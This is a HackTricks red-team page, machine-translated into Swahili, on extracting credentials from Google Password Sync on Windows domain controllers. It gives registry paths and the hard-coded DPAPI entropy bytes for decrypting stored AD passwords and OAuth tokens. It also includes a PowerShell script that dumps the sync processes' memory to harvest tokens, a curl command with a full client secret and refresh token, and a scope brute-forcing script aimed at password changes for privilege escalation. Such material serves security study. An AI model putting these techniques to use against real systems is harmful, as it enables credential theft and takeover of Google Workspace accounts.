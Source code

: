 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Hii ni binary na huduma ambayo Google inatoa ili **kuhifadhi nywila za watumiaji zikiwa sambamba kati ya AD** na Workspace. Kila wakati mtumiaji anapobadilisha nywila yake katika AD, inakabidhiwa kwa Google.

Inasakinishwa katika `C:\Program Files\Google\Password Sync` ambapo unaweza kupata binary `PasswordSync.exe` ili kuisakinisha na `password_sync_service.exe` (huduma ambayo itaendelea kufanya kazi).

### GPS - Configuration

Ili kusanidi binary hii (na huduma), inahitajika **kumpatia ufikiaji wa Super Admin principal katika Workspace**:

* Ingia kupitia **OAuth** na Google na kisha itahifadhi **token katika rejista (imefichwa)**
* Inapatikana tu katika Domain Controllers zenye GUI
* Kutoa baadhi ya **akidi za Akaunti ya Huduma kutoka GCP** (faili ya json) zenye ruhusa za **kusimamia watumiaji wa Workspace**
* Wazo mbaya sana kwani akidi hizo hazikomei kamwe na zinaweza kutumika vibaya
* Wazo mbaya sana kumpatia SA ufikiaji juu ya workspace kwani SA inaweza kuathiriwa katika GCP na itakuwa rahisi kuhamasisha kwa Workspace
* Google inahitaji hivyo kwa kudhibiti kikoa bila GUI
* Akidi hizi pia zinahifadhiwa katika rejista

Kuhusu AD, inawezekana kuonyesha kutumia **muktadha wa programu wa sasa, bila jina au akidi maalum**. Ikiwa chaguo la akidi limechaguliwa, **jina la mtumiaji** linahifadhiwa ndani ya faili katika **disk** na **nywila** inafichwa na kuhifadhiwa katika **rejista**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

Katika faili **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** inawezekana kupata sehemu ya usanidi kama **`baseDN`** ya AD iliyowekwa na **`username`** ambayo akidi zake zinatumika.

Katika rejista **`HKLM\Software\Google\Google Apps Password Sync`** inawezekana kupata **token ya kusasisha iliyofichwa** na **nywila iliyofichwa** kwa mtumiaji wa AD (ikiwa ipo). Zaidi ya hayo, ikiwa badala ya token, baadhi ya **akidi za SA** zinatumika, pia inawezekana kupata hizo zimefichwa katika anwani hiyo ya rejista. **Thamani** ndani ya rejista hii zinaweza kufikiwa tu na **Wasimamizi**.

**Nywila** iliyofichwa (ikiwa ipo) iko ndani ya ufunguo **`ADPassword`** na imefichwa kwa kutumia **`CryptProtectData`** API. Ili kuifichua, unahitaji kuwa mtumiaji yule yule aliyesanidi usawazishaji wa nywila na utumie **entropy** hii unapofanya kazi na **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

**Token** iliyofichwa (ikiwa ipo) iko ndani ya ufunguo **`AuthToken`** na imefichwa kwa kutumia **`CryptProtectData`** API. Ili kuifichua, unahitaji kuwa mtumiaji yule yule aliyesanidi usawazishaji wa nywila na utumie **entropy** hii unapofanya kazi na **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Zaidi ya hayo, pia imeandikwa kwa kutumia base32hex na kamusi **`0123456789abcdefghijklmnopqrstv`**.

Thamani za entropy zilipatikana kwa kutumia zana. Ilisakinishwa kufuatilia simu za **`CryptUnprotectData`** na **`CryptProtectData`** na kisha zana hiyo ilitumika kuzindua na kufuatilia `PasswordSync.exe` ambayo itafichua nywila iliyosanidiwa na token ya uthibitishaji mwanzoni na zana hiyo it **onyesha thamani za entropy zilizotumika** katika hali zote mbili:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Kumbuka kwamba pia inawezekana kuona **thamani zilizofichuliwa** katika ingizo au pato la simu hizi za API pia (ikiwa kwa bahati mbaya Winpeas itakoma kufanya kazi).

Ikiwa Usawazishaji wa Nywila ulisasanidiwa na **akidi za SA**, pia itahifadhiwa katika funguo ndani ya rejista **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Kama ilivyo na GCPW, inawezekana kutupa kumbukumbu ya mchakato wa `PasswordSync.exe` na mchakato wa `password_sync_service.exe` na utaweza kupata token za kusasisha na ufikiaji (ikiwa tayari zimeundwa).\
Nadhani unaweza pia kupata akidi zilizowekwa za AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Kutengeneza alama za ufikiaji kutoka kwa alama za upya

Kwa kutumia alama ya upya, inawezekana kutengeneza alama za ufikiaji kwa kutumia hiyo na kitambulisho cha mteja na siri ya mteja zilizoainishwa katika amri ifuatayo:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Kumbuka kwamba hata ukiwa na token ya kusasisha, si rahisi kuomba scope yoyote kwa token ya ufikiaji kwani unaweza tu kuomba **scopes zinazoungwa mkono na programu ambapo unazalisha token ya ufikiaji**.

Pia, token ya kusasisha si halali katika kila programu.
{% endhint %}

Kwa default GPS haitaweza kupata kama mtumiaji kwa kila scope ya OAuth inayowezekana, hivyo kutumia script ifuatayo tunaweza kupata scopes ambazo zinaweza kutumika na `refresh_token` kuzalisha `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Na hii ndiyo matokeo niliyopata wakati wa kuandika:
```
https://www.googleapis.com/auth/admin.directory.user
```
Ambayo ni sawa na ile unayopata ikiwa hujaelezea upeo wowote.

{% hint style="danger" %}
Kwa upeo huu unaweza **kubadilisha nenosiri la mtumiaji aliyepo ili kuongeza mamlaka**.
{% endhint %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
